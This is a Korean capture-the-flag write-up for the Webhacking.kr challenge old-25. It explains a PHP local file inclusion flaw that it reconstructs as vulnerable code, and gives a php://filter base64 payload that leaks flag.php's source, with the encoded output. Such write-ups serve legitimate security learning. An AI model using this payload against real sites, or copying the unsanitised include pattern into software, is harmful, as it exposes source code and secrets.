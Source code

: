 ```yaml
---
title: ["[Webhacking.kr] old-25 (php - 15)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, php, wrapper]
---
```

## Intro
![문제 설명](assets/img/writeup/webhacking.kr/old-25/recon.png)

`file` 인자로 주는 값에 `.php`를 붙여 실행시키는 기능이 있어 보인다.  

## Analysis

```php
<?php
// index.php

if(isset($_GET['file'])) {
    $file = $_GET['file'];
    
    // Check file 
    if(file_exists($file . '.php')) {
        // run PHP file
        include($file . '.php');
    }
} 
?>
```  
백엔드의 코드는 이런식으로 인자로 받은 파일을 실행시킬 것이다.  
PHP의 `include`, `fopen`, `file_get_contents`와 같은 파일 시스템 관련 함수들은 모두 PHP wrapper를 인식하고 처리할 수 있다.  


`PHP wrapper`는 URL을 통해 다양한 리소스에 접근할 수 있게 해주는 기능이다.  
문제에서 flag는 code에 있다고 했으므로,  
`flag.php`의 소스코드를 필터를 사용해서 노출시킬 수 있다.  


## Payload

```
?file=php://filter/convert.base64-encode/resource=flag
```

```
PD9waHAKICBlY2hvICJGTEFHIGlzIGluIHRoZSBjb2RlIjsKICAkZmxhZyA9ICJGTEFHe3RoaXNfaXNfeW91cl9maXJzdF9mbGFnfSI7Cj8+Cg==
```  
출력값을 base64 디코딩하면 된다.  